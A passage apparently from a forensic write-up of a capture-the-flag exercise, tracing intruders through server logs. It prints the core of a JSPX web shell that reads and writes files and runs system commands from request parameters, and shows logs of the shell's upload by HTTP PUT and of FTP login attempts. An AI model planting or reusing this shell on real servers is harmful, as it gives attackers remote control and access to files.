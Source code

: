 ```
;StringBuffer sb=new StringBuffer("");try{String Z=EC(request.getParameter(Pwd)+"");String z1=EC(request.getParameter("z1")+"");String z2=EC(request.getParameter("z2")+"");sb.append("->"+"|");String s=request.getSession().getServletContext().getRealPath("/");if(Z.equals("A")){sb.append(s+"\t");if(!s.substring(0,1).equals("/")){AA(sb);}}else if(Z.equals("B")){BB(z1,sb);}else if(Z.equals("C")){String l="";BufferedReader br=new BufferedReader(new InputStreamReader(new FileInputStream(new File(z1))));while((l=br.readLine())!=null){sb.append(l+"\r\n");}br.close();}else if(Z.equals("D")){BufferedWriter bw=new BufferedWriter(new OutputStreamWriter(new FileOutputStream(new File(z1))));bw.write(z2);bw.close();sb.append("1");}else if(Z.equals("E")){EE(z1);sb.append("1");}else if(Z.equals("F")){FF(z1,response);}else if(Z.equals("G")){GG(z1,z2);sb.append("1");}else if(Z.equals("H")){HH(z1,z2);sb.append("1");}else if(Z.equals("I")){II(z1,z2);sb.append("1");}else if(Z.equals("J")){JJ(z1);sb.append("1");}else if(Z.equals("K")){KK(z1,z2);sb.append("1");}else if(Z.equals("L")){LL(z1,z2);sb.append("1");}else if(Z.equals("M")){String[] c={z1.substring(2),z1.substring(0,2),z2};Process p=Runtime.getRuntime().exec(c);MM(p.getInputStream(),sb);MM(p.getErrorStream(),sb);}else if(Z.equals("N")){NN(z1,sb);}else if(Z.equals("O")){OO(z1,sb);}else if(Z.equals("P")){PP(z1,sb);}else if(Z.equals("Q")){QQ(cs,z1,z2,sb,z2.indexOf("-to:")!=-1?z2.substring(z2.indexOf("-to:")+4,z2.length()):s.replaceAll("\\\\","/")+"images/");}}catch(Exception e){sb.append("ERROR"+":// "+e.toString());}sb.append("|"+"&lt;-");out.print(sb.toString());</jsp:scriptlet></jsp:root>
```

No hint in access log

```
root@project-server:~# cat full-access.log | grep "shatt.jspx"

10.0.0.1 - - [06/Apr/2019:02:36:09 +0200] "PUT /shatt.jspx/ HTTP/1.1" 201 -
10.0.0.1 - - [06/Apr/2019:02:36:13 +0200] "GET /shatt.jspx HTTP/1.1" 500 5403
10.0.0.1 - - [06/Apr/2019:02:38:34 +0200] "PUT /shatt.jspx/ HTTP/1.1" 204 -
```

## Admin server

### First access

When did the first challenger reach the internal network ? Remember, access log on `project-server` indicates that first request was done at `9:48pm`. But on `admin-server` the first request was done at `9:16pm` (maybe because nginx ran on port 80)

```
root@admin-server:~# head full-access.log 
10.0.0.1 - - [05/Apr/2019:21:16:23 +0200] "GET / HTTP/1.1" 401 188 "-" "curl/7.64.0"
10.0.0.1 - - [05/Apr/2019:21:16:34 +0200] "GET / HTTP/1.1" 401 188 "-" "curl/7.64.0"
10.0.0.1 - - [05/Apr/2019:21:16:43 +0200] "GET / HTTP/1.1" 401 188 "-" "curl/7.64.0"
```

### First ftp connexion

The first valid login on the ftp service was done at `10:47pm`.

```
root@admin-server:~# cat full-vstfpd.log | grep "LOGIN"
Fri Apr  5 22:02:02 2019 [pid 1476] [backup] FAIL LOGIN: Client "::ffff:10.0.0.1"
Fri Apr  5 22:02:19 2019 [pid 1480] [backup] FAIL LOGIN: Client "::ffff:10.0.0.1"
Fri Apr  5 22:02:27 2019 [pid 1480] [backup] FAIL LOGIN: Client "::ffff:10.0.0.1"
Fri Apr  5 22:02:41 2019 [pid 1480] [backup] FAIL LOGIN: Client "::ffff:10.0.0.1"
Fri Apr  5 22:47:04 2019 [pid 1656] [backup] OK LOGIN: Client "::ffff:10.0.0.1"
```
